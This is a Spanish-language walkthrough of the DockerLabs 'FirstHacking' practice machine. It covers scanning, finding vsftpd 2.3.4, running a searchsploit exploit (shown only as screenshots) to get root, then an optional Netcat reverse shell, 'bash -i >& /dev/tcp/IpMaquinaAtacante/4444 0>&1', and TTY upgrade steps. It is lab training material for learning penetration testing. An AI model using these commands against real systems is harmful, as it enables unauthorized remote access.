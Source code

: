 # Maquina FirstHacking - DockerLabs.es

![alt text](image.png)

Primero, debemos verificar que nuestra máquina esté correctamente desplegada.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182136.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182222.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182332.png)

Observamos que el puerto 21 está abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815182432.png)

Podemos observar que el puerto 21 está ejecutando el servicio FTP con la versión `vsftpd 2.3.4`. Al investigar esta versión, descubrimos que existen CVEs (Common Vulnerabilities and Exposures) asociadas. Utilizando la herramienta `searchsploit`, encontramos varios exploits que podrían ser aplicables a esta versión del servicio.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183432.png)

Podemos utilizar los siguientes comandos para trasladar el exploit a nuestro directorio de trabajo actual de la siguiente manera:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183628.png)

A continuación, ejecutamos el exploit de la siguiente manera:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815183933.png)

¡Ahora tenemos una shell con privilegios de "root"! Para verificarlo, podemos ejecutar el comando `whoami`.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815184019.png)

Si deseamos trabajar de manera más cómoda, podemos establecer una conexión desde nuestra máquina atacada hacia nuestra máquina atacante utilizando Netcat y, a continuación, aplicar un tratamiento de TTY.

## (Opcional) Trabajar de manera mas cómoda

Esto lo hacemos de la siguiente manera:

Primero, ejecutaremos `echo $SHELL` para verificar qué shell estamos utilizando por defecto. Si el resultado está vacío, escribiremos el comando `bash`. Luego, volveremos a ejecutar `echo $SHELL` y notaremos que ahora el resultado es `/bin/bash`. Es importante realizar este paso porque, de no hacerlo, podrías experimentar un error de sintaxis al intentar lanzar una "shell" hacia la máquina atacante.

Adjunto foto del error:

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185426.png)

Una vez completado el paso anterior, configuramos nuestra máquina atacante para escuchar con Netcat utilizando el comando `nc -nvlp 4444`. Luego, desde la shell en la máquina víctima, ejecutamos el siguiente comando:

`bash -i >& /dev/tcp/IpMaquinaAtacante/4444 0>&1`

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185023.png)

## (Opcional) Tratamiento de la TTY

Notamos que, una vez dentro, no podemos utilizar `Ctrl + L`, el comando `clear`, ni otras funciones similares.

![alt text](ImagenesMaquinaFirstHacking/Pasted%20image%2020240815185554.png)

**Para trabajar de manera mas cómoda haremos lo siguiente:**

Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

